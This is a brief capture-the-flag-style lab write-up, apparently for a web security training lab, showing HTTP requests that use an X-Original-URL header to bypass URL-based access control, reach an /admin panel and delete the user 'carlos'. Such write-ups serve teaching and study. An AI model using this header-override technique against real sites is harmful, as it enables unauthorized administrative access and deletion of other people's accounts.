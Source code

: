 # Lab: URL-based access control can be circumvented

First we need to change the request to get the admin panel with:
From:
```http
GET /admin HTTP/1.1
...
```
To:
```http
GET / HTTP/1.1
.....
X-Original-URL: /admin
```

Next we need to delte the user carlos with the request:
```http
GET /admin/delete?username=carlos HTTP/1.1
...
Connection: close
```
This will not work without the X-Original-URL header:
```http
GET /?username=carlos HTTP/1.1
...
X-Original-URL: /admin/delete?username=carlos
```




